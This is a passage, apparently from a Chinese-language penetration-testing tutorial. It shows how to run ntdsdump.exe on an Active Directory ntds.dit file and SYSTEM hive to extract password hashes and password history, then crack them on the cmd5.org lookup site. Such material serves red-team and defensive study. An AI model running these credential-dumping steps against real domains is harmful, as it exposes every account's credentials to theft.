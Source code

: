 ```bash
ntdsdump.exe -f ntds.dit -s SYSTEM

#参数说明：
ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> [-o out.txt] [-h] [-t JOHN|LC]
-f    ntds.dit 路径
-k   可选的十六进制格式的 SYSKEY
-s    可选的 system.hiv 路径
-h   导出历史密码记录
-t    导出格式，LC 或 JOHN
-o   导出到指定文件中
```

[![](assets/1706090550-7235cf01f76dafaab2f3651ec49ec3ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124094948-db1093c6-ba5a-1.png)  
之后在 CMd5 解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)  
[![](assets/1706090550-630fbb08862b408f9f298b1313703cee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124094958-e15aff14-ba5a-1.png)
